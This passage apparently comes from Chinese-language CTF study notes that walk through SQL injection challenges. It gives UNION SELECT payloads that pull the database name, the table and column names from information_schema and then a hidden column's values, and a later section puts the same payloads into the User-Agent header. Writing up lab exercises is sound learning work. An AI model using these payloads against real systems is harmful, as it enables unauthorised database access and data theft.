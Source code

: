爆破当前库的信息,爆破出库名为sqli

```
-1 union select database(),1
```

![image-20240121001906697](E:\学习资料\网安\笔记\笔记截图\image-20240121001906697.png)

爆破出该数据库的表名，爆破出了两个数据表news,rnodohnpod

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![image-20240121002158549](E:\学习资料\网安\笔记\笔记截图\image-20240121002158549.png)

列出指定表中的字段名，得到了一个字段cmhgymvzlg

```
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='rnodohnpod'
```

![image-20240121002509581](E:\学习资料\网安\笔记\笔记截图\image-20240121002509581.png)

接着爆破字段cmhgymvzlg的值

```
-1 union select 1,group_concat(cmhgymvzlg) from rnodohnpod
```

![image-20240121002820104](E:\学习资料\网安\笔记\笔记截图\image-20240121002820104.png)

**UA注入**

由题目名称可知这道题是UA注入，既然是UA，就用bp抓包在User-Agent字段里面进行注入

先判断一下注入点

```
-1 union select 1,2
```

![image-20240121005032131](E:\学习资料\网安\笔记\笔记截图\image-20240121005032131.png)

爆出库名为sqli

```
-1 union select database(),1
```

![image-20240121005218027](E:\学习资料\网安\笔记\笔记截图\image-20240121005218027.png)

接着列出数据库中的所有表名news,mfowyfekft

```
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![image-20240121005832753](E:\学习资料\网安\笔记\笔记截图\image-20240121005832753.png)
